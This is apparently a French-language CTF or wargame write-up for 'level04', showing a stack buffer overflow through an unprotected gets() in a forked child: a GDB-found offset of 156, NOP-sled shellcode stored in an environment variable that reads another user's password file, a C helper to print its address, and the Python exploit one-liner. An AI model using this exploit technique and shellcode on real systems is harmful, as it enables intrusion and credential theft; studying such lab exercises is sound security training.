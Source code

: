 En Decompilant le programe on ce rend qu'on que l'on a un __fork__ la fonction __gets__ non proteger dedans. 

Nous allons donc utilise cette faille pour executer un shell code.

en utilisant __GDB__ avec __set follow-fork-mode child__ qui nous permet de check ce qui ce passe dans l'enfant du fork.

On arrive a obtenir un offset de ==156==

Ensuite il faut creer une variable d'enviroment pour notre shell code:

```bash
 export SHELLCODE=$(python -c "print '\x90' * 1000 + '\x31\xc0\x31\xdb\x31\xc9\x31\xd2\xeb\x32\x5b\xb0\x05\x31\xc9\xcd\x80\x89\xc6\xeb\x06\xb0\x01\x31\xdb\xcd\x80\x89\xf3\xb0\x03\x83\xec\x01\x8d\x0c\x24\xb2\x01\xcd\x80\x31\xdb\x39\xc3\x74\xe6\xb0\x04\xb3\x01\xb2\x01\xcd\x80\x83\xc4\x01\xeb\xdf\xe8\xc9\xff\xff\xff/home/users/level05/.pass'")
```


shellcode qui execute un __cat /home/users/level05/.pass__

Ensuite avec un petit programe on viens recup l'adresse de la variable d'environement:

```c
  #include <stdio.h>
  #include <stdlib.h>

  int main(int argc, char** argv)
  {
    printf("env address at %p\n", getenv(argv[1]));
    return (0);
  }
```

Avec tout ca on créée un one liner python pour executer notre shellcode dans le programe:

> python -c "print '\x90' * 156 + [address shellcode]" | ./level04

On obtient donc le flag.
